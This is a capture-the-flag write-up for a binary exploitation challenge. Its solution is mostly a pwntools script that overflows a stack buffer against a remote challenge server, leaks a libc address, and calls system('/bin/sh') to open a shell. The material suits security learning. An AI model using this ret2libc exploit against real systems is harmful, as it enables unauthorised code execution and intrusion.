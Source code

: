 ### Description

The "Everything Machine" is a volumetric printer that has the ability to copy and print any three dimensional object. The maintainer of the Everything Machine has received your feedback from last year and are proud to deploy the second model. But I think you can still force it to print a flag though.

### Solution

In the zip file given, there are binary also with libc files. Unfortunately i sugest it will be something related with ret2libc after some time learning something new i found interesting writeup [https://ctftime.org/writeup/14404](https://ctftime.org/writeup/14404)  looks the same with my condition because i need to find the libc-base address first and it needs some adress that can be find from libc file, following the writeup ive come to successfull script, Here is my script to perform ret2libc:

```
import struct
import socket
from pwn import *

context(arch = 'i386', os = 'linux', endian = 'little')

puts_plt = 0x08049070
puts_got = 0x804c018       #objdump -R everything4 | grep puts
main = 0x080491eb              #objdump -D everything4 | grep main

buf = b""
buf += b"A"*2036             
buf += p32(puts_plt)         
buf += p32(main)             
buf += p32(puts_got)         

# s = process("everything4")
s = remote('103.191.63.187', 5001)
log.info("Stage 1: ...Leaking Memory")
s.recvuntil("Step forward for synchronization:\n\n")
s.sendline(buf)
received = s.recvline()
print(received)
leaked_puts_got = received.strip()
leaked_puts_got = u32(leaked_puts_got)
addrs = hex(leaked_puts_got)
leaked_puts_got = int(addrs, 16)
log.success("Leaked remote libc address: " + addrs)
print('')

#################### STAGE2 ####################

libc = ELF("libc.so.6")

libc_base = leaked_puts_got - libc.sym.puts
system_addr = libc_base + libc.sym["system"]
fake_addr = 0xbeefdead
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh\x00"))

buf = b""
buf += b"A"*2036      
buf += p32(system_addr)
buf += p32(fake_addr)     
buf += p32(bin_sh_addr)

log.info("Stage 2: ...Obtaining Shell ")
s.sendline(buf)
```